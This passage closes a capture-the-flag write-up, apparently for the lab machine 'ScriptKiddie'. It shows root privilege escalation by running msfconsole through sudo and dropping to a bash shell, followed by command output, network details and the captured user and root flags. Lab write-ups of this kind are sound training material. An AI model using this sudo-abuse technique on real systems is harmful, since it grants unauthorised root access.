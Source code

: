Because the `pwn` user was able to execute the `msfconsole` tool with high privileges and the tool itself offered a builtin function to spawn a shell, it was possible to leverage this feature to obtain a full interactive root shell:

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami && hostname && cat /root/root.txt && ifconfig -a
root
scriptkiddie
db90201a61bd45b56fe74fb7a44253ee
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.226  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:a9:c3  txqueuelen 1000  (Ethernet)
        RX packets 31355  bytes 6228551 (6.2 MB)
        RX errors 0  dropped 59  overruns 0  frame 0
        TX packets 20962  bytes 24340256 (24.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 53480  bytes 3798372 (3.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 53480  bytes 3798372 (3.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

![Pasted image 20210421184741.png](../../zzz_res/attachments/Pasted_image_20210421184741.png)

# Trophy

>[!quote]
>A hacker does for love what others would not do for money
>
\- Laura Creighton 

>[!success]
>**User.txt**
>d39801357eae303d1053964e21274317

>[!success]
>**Root.txt**
>db90201a61bd45b56fe74fb7a44253ee